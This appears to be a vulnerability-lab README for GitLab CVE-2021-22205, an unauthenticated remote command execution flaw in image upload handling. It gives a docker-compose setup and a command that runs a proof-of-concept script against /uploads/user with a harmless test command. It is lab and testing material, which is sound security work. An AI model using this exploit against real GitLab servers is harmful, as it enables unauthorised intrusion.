


# GitLab Pre-Auth Remote Commands Execution (CVE-2021-22205)

[中文版本(Chinese version)](README.zh-cn.md)

GitLab is a web-based DevOps lifecycle tool that provides a Git repository manager providing wiki, issue-tracking and continuous integration and deployment pipeline features.

An issue has been discovered in GitLab CE/EE affecting the versions starting from 11.9. GitLab was not properly validating image files that is passed to a file parser which resulted in an unauthenticated remote command execution.

References:

- https://hackerone.com/reports/1154542
- https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html
- https://security.humanativaspa.it/gitlab-ce-cve-2021-22205-in-the-wild/
- https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-22205.yaml

## Vulnerable environment

Execute following command to start a GitLab Community Server 13.10.1:

```
docker-compose up -d
```

After the server is started, browse the `http://your-ip:8080` to see the website.

## Exploit

The api endpoint `/uploads/user` is an unauthenticated interface. Attack the server through the [poc.py](poc.py):

```
python poc.py http://your-ip:8080 "touch /tmp/success"
```



`touch /tmp/success` has been executed successfully:


